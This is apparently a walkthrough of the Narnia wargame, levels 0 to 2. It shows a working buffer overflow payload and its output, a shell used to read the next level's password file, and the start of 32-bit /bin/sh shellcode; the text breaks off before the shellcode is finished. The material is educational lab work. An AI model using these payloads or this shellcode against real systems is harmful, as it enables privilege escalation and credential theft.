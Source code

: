 This is an obvious buffer overflow. We are asked to change ```val```'s value into ```0xdeadbeef``` and since it's a ```long``` it has exactly 4 bytes. The ```scanf("%24s",&buf);``` reads exactly a 24 character string into ```char buf[20];```, a 20 byte character array. Clearly, we can overwrite past that buffer into the previously declared variable, ```val```.
```
narnia0@narnia:/narnia$ python -c 'print "a" * 20 + "\xef\xbe\xad\xde"' | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
```
This worked! Now let's just append ```stdin``` so that we can actually obtain the shell:
```
narnia0@narnia:/narnia$ python -c 'print "a" * 20 + "\xef\xbe\xad\xde"' > /tmp/exploit0
narnia0@narnia:/narnia$ cat /tmp/exploit0 - | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
```

## Level 1 -> 2 ##
Alright, let's see what we have here:
```
narnia1@narnia:~$ cd /narnia
narnia1@narnia:/narnia$ cat narnia1.c 
```
```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
Looks like it declared the function pointer ```int (*ret)();``` and stores in the memory pointed by it the value of an environment variable called ```EGG``` and executes it afterwards. This means that if we were to give it shellcode, it would point the flow the execution (```eip``` pointer to it). First, let's figure out the architecture:
```
narnia1@narnia:/narnia$ file narnia1
narnia1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=328875c03e74c86e5dddfe88094a577f308ab167, not stripped
```
Alright, so we need to build a 32-bit shellcode. Let's get started:
```
bits 32
    xor esi, esi
    push esi ; add null terminator for the pushed string
    ; building up the string on the stack
    push   0x68732f2f ; hs//
    push   0x6e69622f ; nib/
    mov ebx, esp
```